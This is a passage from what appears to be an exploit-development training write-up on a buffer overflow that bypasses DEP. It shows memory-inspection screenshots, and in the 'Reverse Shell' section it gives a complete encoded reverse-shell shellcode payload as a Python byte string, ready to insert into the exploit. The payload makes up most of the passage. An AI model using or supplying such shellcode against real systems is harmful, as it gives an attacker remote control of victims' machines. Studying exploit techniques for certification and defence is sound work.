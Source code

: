 ![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/5.gif)

Ok. Now we check the values of the memory and see that is going to be changed.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/6.gif)

And here we have the memory already changed it value.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2011:35:06.png)

# Reverse Shell

So, now let's generate our reverse shell and put that inside the exploit.

```py
shellcode =  b""
shellcode += b"\xda\xdd\xd9\x74\x24\xf4\x5d\x31\xc9\xb1\x5e"
shellcode += b"\xbf\x85\xf0\x6d\xbf\x83\xed\xfc\x31\x7d\x15"
shellcode += b"\x03\x7d\x15\x67\x05\xe4\x5a\xe6\x22\x07\x5d"
shellcode += b"\x17\x55\xd9\x57\x83\x21\x6b\x58\xc0\x40\x80"
shellcode += b"\x13\xa0\xb0\x13\x7d\x44\x42\x5d\xa2\xdf\x62"
shellcode += b"\xc4\x9b\x90\x92\x7d\x2e\xc5\xa5\x23\x47\x6c"
shellcode += b"\xae\x30\x03\x66\x5b\x39\x53\x89\xc4\x4d\xef"
shellcode += b"\x49\x8e\x2e\xf3\xc9\x91\x11\x78\x66\x8a\x26"
shellcode += b"\x38\x58\xab\xe0\x4e\xdd\x57\xf3\x67\x94\x2c"
shellcode += b"\xb1\x7b\xad\x07\xb2\x85\x6f\x56\x02\x1c\x73"
shellcode += b"\x35\x06\xdf\xff\x41\xc6\x2a\xf2\x4c\x0a\x41"
shellcode += b"\xf8\x74\xde\xb2\x24\xfe\x01\x31\x73\x24\xbf"
shellcode += b"\x9c\x1d\xaf\xb3\x6a\x6a\xf8\xd7\x6b\xb6\x8c"
shellcode += b"\xec\xe1\x47\x4b\x65\xb1\x63\x77\x17\xf9\x03"
shellcode += b"\x04\x6e\x48\xab\xf5\xc4\xb7\xc2\x4f\xf7\xdf"
shellcode += b"\x5a\x01\xf9\xf3\x9d\xcb\x01\x85\x24\xe0\x61"
shellcode += b"\xe7\x58\xbb\x64\xf8\xf1\xb8\x01\x43\xe1\xf1"
shellcode += b"\xd1\x2a\xa9\x9e\xbd\xe2\xa1\x6d\x0c\x2d\x55"
shellcode += b"\xfa\x07\x42\xa7\xa5\xb3\x5b\x92\x4d\xb5\x67"
shellcode += b"\x74\xa5\x28\x9b\xbf\xc6\xe6\x60\x36\x7d\x15"
shellcode += b"\x01\x91\x77\xd0\x7c\xde\xdd\x1e\xf6\x65\xfe"
shellcode += b"\x76\x04\xdf\xd3\x35\xeb\x4a\x28\xb3\x51\x50"
shellcode += b"\xb9\x23\x68\x51\xdf\x1a\x1b\x64\x09\x95\x4c"
shellcode += b"\x57\x89\x43\xd5\x95\x0b\xdc\xda\xcc\x17\xed"
shellcode += b"\xe4\xbe\x77\x5d\x55\x38\x28\x71\x90\x14\x88"
shellcode += b"\xd9\x65\xc1\x28\x53\x5f\xd8\xe8\x33\x30\x72"
shellcode += b"\x29\x1b\xca\x4e\xcf\xe4\x2a\xf5\xd1\xf5\x3d"
shellcode += b"\x6f\x51\x35\x3f\x3f\x01\xe9\x71\x7f\xf9\x45"
shellcode += b"\x22\x2f\xfe\x75\x92\x98\xa8\x8a\x47\x02\x03"
shellcode += b"\x23\x3e\x7b\x6b\x9b\xee\xcb\xeb\x2d\xc6\x9a"
shellcode += b"\x6c\x4c\x10\x8c\x5d\x8f\xf0\x7c\xce\x5f\xa1"
shellcode += b"\x2c\xbe\x0f\x11\x9c\x8e\xf4\xc1\x48\xb0\x4c"
shellcode += b"\x7a\xf7\xd4\x52\x8a\x2f\xb8\xc4\x16\xa2\x5d"
shellcode += b"\x3b\x8d\x67\x17\xa3\x1c\x5e\x41\x9d\xcf\x63"
shellcode += b"\xa7\x15\xbf\x34\x86\x65\x10\xea\xb8\x25\xc1"
shellcode += b"\x42\x69\xf6\xb2\x02\x76\xa3\x2c\x93\x41\x1d"
shellcode += b"\x27\x2c\xae\xcb\xa7"
```
